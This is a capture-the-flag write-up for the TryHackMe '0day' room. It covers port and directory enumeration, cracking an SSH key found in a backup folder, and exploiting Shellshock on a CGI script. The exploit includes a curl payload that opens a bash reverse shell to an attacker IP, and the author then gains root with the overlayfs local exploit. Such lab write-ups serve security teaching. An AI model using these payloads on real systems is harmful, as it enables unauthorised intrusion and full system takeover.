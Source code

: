 # 37 - 0day (overlayfs exploit)

Room Link --> [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.58.180 -T5 -sV -p-

# outputs
22/tcp open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13
80/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
```
{% endcode %}

#### ffuf enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.58.180/FUZZ -c -w /usr/share/dirb/wordlists/common.txt -fc 403,400 -t 500

admin                   
backup                  
cgi-bin                 
css                     
img                     
index.html              
js                      
robots.txt              
secret                  
uploads
```
{% endcode %}

Navigating to /backup, found an ssh private key.

<figure><img src=".gitbook/assets/image (268).png" alt=""><figcaption></figcaption></figure>

We see it's encrypted, so we use `ssh2john` to convert it to john format then crack it with john.

```
nano id_rsa
chmod 400 id_rsa
ssh2john id_rsa > id_hash.john
john id_hash.john --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src=".gitbook/assets/image (269).png" alt=""><figcaption><p>cracked.</p></figcaption></figure>

But no username yet :(

Back to enumeration:

#### Nikto enum

{% code overflow="wrap" %}
```
Nikto output the /cgi-bin/test.cgi hidden directory which is vulnerable to the shellshock exploitation.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

#### CHecking if the site is vulnerable

We can set the user agent to a function definition to exploit Shellshock:

{% code overflow="wrap" lineNumbers="true" %}
```bash
# using curl
curl http://0day.thm/cgi-bin/test.cgi -H "User-agent: () { :;}; echo; echo vulnerable"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

We see the page is vulnerable.

### Initial Access

{% code overflow="wrap" lineNumbers="true" %}
```bash
# setup a nc listener.
curl http://0day.thm/cgi-bin/test.cgi -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.18.88.214/4444 0>&1"
```
{% endcode %}

<figure><img src=".gitbook/assets/image (272).png" alt=""><figcaption><p>We got a shell.</p></figcaption></figure>

### Priv Esc

Following the hine, we check the dist version : `uname -a` .

when we google "ubuntu 3.13 exploit" we came accross the Overlayfs ' Local Privilege Escalation.

{% embed url="https://www.exploit-db.com/exploits/37292" %}

Download and send to victim.

{% hint style="info" %}
We have to add the standard Ubuntu env path variable or this compilation to work.
{% endhint %}

{% code overflow="wrap" lineNumbers="true" %}
```bash
# standard Ubuntu path, we do this vbecause the machine version is very old.
export PATH=/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin


# then compile
gcc ofs.c -o ofs
chmod +x ofs
./ofs
id
```
{% endcode %}

<figure><img src=".gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>



Done!

